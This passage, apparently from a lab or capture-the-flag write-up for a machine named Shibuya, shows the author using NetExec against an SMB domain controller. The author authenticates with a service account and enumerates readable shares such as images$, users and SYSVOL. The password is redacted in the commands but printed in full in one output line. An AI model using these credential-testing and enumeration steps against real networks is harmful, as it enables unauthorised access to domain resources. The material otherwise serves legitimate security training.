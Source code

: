 ![alt text](../assets/images/Screenshot_2025-02-21_18_33_17.png)

we can also get usernames list here or with —rid-brute

it has NTLM auth

```
➜  Shibuya nxc smb 10.10.100.216 -u svc_autojoin -p "K<redcted>V"
SMB         10.10.100.216   445    AWSJPDC0522      [*] Windows Server 2022 Build 20348 x64 (name:AWSJPDC0522) (domain:shibuya.vl) (signing:True) (SMBv1:False)
SMB         10.10.100.216   445    AWSJPDC0522      [+] shibuya.vl\svc_autojoin:K<redacted>V
```
also images readable rn lets goo!!!
### images$

```
➜  Shibuya nxc smb 10.10.100.216 -u svc_autojoin -p "K<redacted>V" --shares
SMB         10.10.100.216   445    AWSJPDC0522      [*] Windows Server 2022 Build 20348 x64 (name:AWSJPDC0522) (domain:shibuya.vl) (signing:True) (SMBv1:False)
SMB         10.10.100.216   445    AWSJPDC0522      [+] shibuya.vl\svc_autojoin:K5&A6Dw9d8jrKWhV 
SMB         10.10.100.216   445    AWSJPDC0522      [*] Enumerated shares
SMB         10.10.100.216   445    AWSJPDC0522      Share           Permissions     Remark
SMB         10.10.100.216   445    AWSJPDC0522      -----           -----------     ------
SMB         10.10.100.216   445    AWSJPDC0522      ADMIN$                          Remote Admin
SMB         10.10.100.216   445    AWSJPDC0522      C$                              Default share
SMB         10.10.100.216   445    AWSJPDC0522      images$         READ            
SMB         10.10.100.216   445    AWSJPDC0522      IPC$            READ            Remote IPC
SMB         10.10.100.216   445    AWSJPDC0522      NETLOGON        READ            Logon server share 
SMB         10.10.100.216   445    AWSJPDC0522      SYSVOL          READ            Logon server share 
SMB         10.10.100.216   445    AWSJPDC0522      users           READ            
```
we have huge files which is need extract i used 7z x here

